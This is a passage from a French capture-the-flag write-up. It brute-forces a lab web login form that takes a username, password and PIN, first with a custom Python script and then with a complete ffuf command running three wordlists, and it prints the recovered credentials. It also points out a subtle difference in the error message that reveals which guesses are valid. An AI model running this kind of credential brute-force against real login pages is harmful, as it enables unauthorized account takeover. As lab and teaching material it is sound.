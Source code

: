 J'ai créé une wordlist d'utilisateurs avec les utilisateurs unix et le compte du Drupal :

```
pinky
pinksec
pinksecmanagement
pinkadmin
```

J'ai d'abord écrit un script Python qui pour un utilisateur donné va tester pour chaque mot de passe tous les PINs possibles (soit `cent mille possibilités * le nombre de mot de passe`).

Mon script remontait tous les cas qui n'avaient pas cette réponse :

```html
<p>Incorrect Username Or Password Or Pin.</p>
```

Et effectivement il aurait trouvé le cas où le mot de passe et le nim d'utilisateur était correct, mais pas le PIN :

```html
<p>Incorrect Username Or Password or Pin.
```

On voit que la réponse est sensiblement différente.

Mais `ffuf` est plus efficace, car il est multithreadé et surtout son mécanisme d'énumération fait qu'il trouve plus rapidement le cas particulier (peut-être part-il de la dernière wordlist, auquel cas c'est du pur hasard) :

```console
$ ffuf -u http://127.0.0.1:8080/login.php -X POST -d "user=USER&pass=PASS&pin=PIN" -H "Content-type: application/x-www-form-urlencoded" -w /tmp/users.txt:USER -w /tmp/pass.txt:PASS -w /tmp/numbers.txt:PIN -fr "Incorrect Username Or Password Or Pin."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:8080/login.php
 :: Wordlist         : USER: /tmp/users.txt
 :: Wordlist         : PASS: /tmp/pass.txt
 :: Wordlist         : PIN: /tmp/numbers.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : user=USER&pass=PASS&pin=PIN
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Incorrect Username Or Password Or Pin.
________________________________________________

[Status: 200, Size: 41, Words: 6, Lines: 1]
    * PASS: AaPinkSecaAdmin4467
    * PIN: 00000
    * USER: pinkadmin

[Status: 200, Size: 41, Words: 6, Lines: 1]
    * USER: pinkadmin
    * PASS: AaPinkSecaAdmin4467
```